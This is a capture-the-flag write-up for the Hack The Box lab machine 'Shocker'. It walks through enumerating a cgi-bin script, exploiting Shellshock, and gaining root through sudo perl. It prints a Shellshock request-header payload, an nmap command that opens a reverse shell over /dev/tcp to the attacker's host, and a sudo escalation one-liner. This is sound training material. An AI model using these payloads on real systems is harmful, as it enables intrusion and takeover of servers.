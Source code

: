 ## Machine Info

![image-20231201000210315](./Shocker.assets/image-20231201000210315.png)

## Recon

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.16 (96%), Linux 3.18 (96%), Linux 3.2 - 4.9 (96%), Linux 4.2 (96%), Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 4.4 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- attack vector: 80 http, 2222 ssh (not recommended)
- find Ubuntu version by apache version or openssh version

![image-20231201020057658](./Shocker.assets/image-20231201020057658.png)

## Foothold

### 80 - http - cgi

- 80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))

![image-20231201020133491](./Shocker.assets/image-20231201020133491.png)

- nothing found inside image

```
$ exiftool bug.jpg
ExifTool Version Number         : 12.67
File Name                       : bug.jpg
Directory                       : .
File Size                       : 37 kB
File Modification Date/Time     : 2014:09:26 02:16:14+08:00
File Access Date/Time           : 2023:11:30 22:50:44+08:00
File Inode Change Date/Time     : 2023:11:30 22:50:38+08:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Comment                         : CREATOR: gd-jpeg v1.0 (using IJG JPEG v62), quality = 90.
Image Width                     : 820
Image Height                    : 420
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 820x420
Megapixels                      : 0.344
```

- subdomain -> nothing [x]

- path: `dirb $IP`

```
+ http://10.10.10.56/cgi-bin/ (CODE:403|SIZE:294)
+ http://10.10.10.56/index.html (CODE:200|SIZE:137)
+ http://10.10.10.56/server-status (CODE:403|SIZE:299)
```

- enum files inside **cig-bin**, `gobuster dir -u $URL/cgi-bin/ -w /usr/share/dirb/wordlists/common.txt -x php,sh,py,pl -t 50`

![image-20231201020248166](./Shocker.assets/image-20231201020248166.png)

- visit this url in browser get a **user.sh** file

![image-20231201020317531](./Shocker.assets/image-20231201020317531.png)

- since this is an output of `uptime` -> user.sh can be executed by apache server -> Ubuntu version **Xenial**, bash version might be < 4.3 -> **shellshock**

### cgi - shellshock

- nmap script scanning -> yes

![image-20231201020509092](./Shocker.assets/image-20231201020509092.png)

### shellshock payload explanation

**http request header:**

```
GET /cgi-bin/user.sh HTTP/1.1
Host: shocker.htb
Connection: close
Cookie: () {:;}; echo; /bin/bash --version
```

### get shell method 1

- `nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd='echo Content-Type: text/html; echo; /bin/bash -c "bash -i >& /dev/tcp/$LOCAL 0>&1"' $IP`

![image-20231201020559889](./Shocker.assets/image-20231201020559889.png)

### get shell method 2

[PayloadsAllTheThings/CVE Exploits/Shellshock CVE-2014-6271.py at master · swisskyrepo/PayloadsAllTheThings (github.com)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE Exploits/Shellshock CVE-2014-6271.py)

![image-20231201020852557](./Shocker.assets/image-20231201020852557.png)

![image-20231201020855771](./Shocker.assets/image-20231201020855771.png)

## Privilege Escalation

![image-20231201020904546](./Shocker.assets/image-20231201020904546.png)

- `sudo -l` -> `sudo perl -e 'exec "/bin/sh";'`

![image-20231201020913906](./Shocker.assets/image-20231201020913906.png)

![image-20231201020940118](./Shocker.assets/image-20231201020940118.png)

## Exploit Chain

recon -> cgi dir -> cgi script -> shellshock -> sudo -l -> priv esca, root
